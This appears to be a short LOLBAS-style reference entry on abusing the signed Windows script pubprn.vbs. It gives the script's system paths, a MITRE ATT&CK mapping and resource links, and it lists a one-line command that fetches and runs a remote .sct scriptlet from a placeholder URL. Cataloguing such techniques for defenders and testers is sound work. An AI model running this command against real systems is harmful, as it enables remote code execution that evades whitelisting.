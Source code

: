 ## Pubprn.vbs

* Functions: Execute

```
pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
```

Acknowledgements:
* Matt Nelson - @enigma0x3

Code sample:
* [Pubprn_calc.sct](Payload/Pubprn_calc.sct)

Resources:
* https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
* https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
* https://github.com/enigma0x3/windows-operating-system-archaeology

Full path:
```
C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
```

Notes:



 
MITRE ATT&CK:
* [Signed Script Proxy Execution](https://attack.mitre.org/wiki/Technique/T1216)
